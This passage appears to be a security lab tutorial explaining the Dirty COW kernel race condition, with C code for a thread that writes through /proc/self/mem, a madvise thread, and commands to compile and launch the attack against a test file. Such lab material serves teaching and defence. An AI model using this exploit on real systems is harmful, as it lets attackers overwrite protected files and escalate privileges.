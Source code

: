 The program has three threads. One is main thread—mapping `/zzz` to memory, finds where the pattern `222222` is, and then creates two threads to exploit the Dirty Cow race condition vulnerability in the OS kernel.

### 3. Set up the `write` thread.

The job of the `write` thread is to replace the string “222222” in the **memory** with “`******`”. Since the mapped memory is of COW type (copy on write), this thread alone will only be able to modify the contents in a copy of the mapped memory, which will not cause any change to the `/zzz` file.

```c
/* cow_attack.c (the write thread) */
void *writeThread(void *arg)
{
char *content= "******";
off_t offset = (off_t) arg;
int f=open("/proc/self/mem", O_RDWR);
while(1) {
// Move the file pointer to the corresponding position.
lseek(f, offset, SEEK_SET);
// Write to the memory.
write(f, content, strlen(content));
}
```

### 4. The `madvise` thread

The `madvise` thread does only one thing: discarding the private copy of the mapped memory, so the page table can point back to the original mapped memory.

```c
/* cow_attack.c (the madvise thread) */
void *madviseThread(void *arg)
{
int file_size = (int) arg;
while(1){
madvise(map, file_size, MADV_DONTNEED);
}
}
```

### 5. Launch the attack

```shell
$ gcc cow_attack.c -lpthread
$ a.out
... press Ctrl-C after a few seconds ...
```

If the `write()` and the `madvise()` system calls are invoked alternatively, i.e., one is invoked only after the other is finished, the write operation will always be performed on the private copy, and we will never be able to modify the target file. The only way for the attack to succeed is to perform the `madvise()` system call while the `write()` system call is still running. We cannot always achieve that, so we need to try many times. As long as the probability is not extremely low, we have a chance. That is why in the threads, we run the two system calls in an infinite loop. 
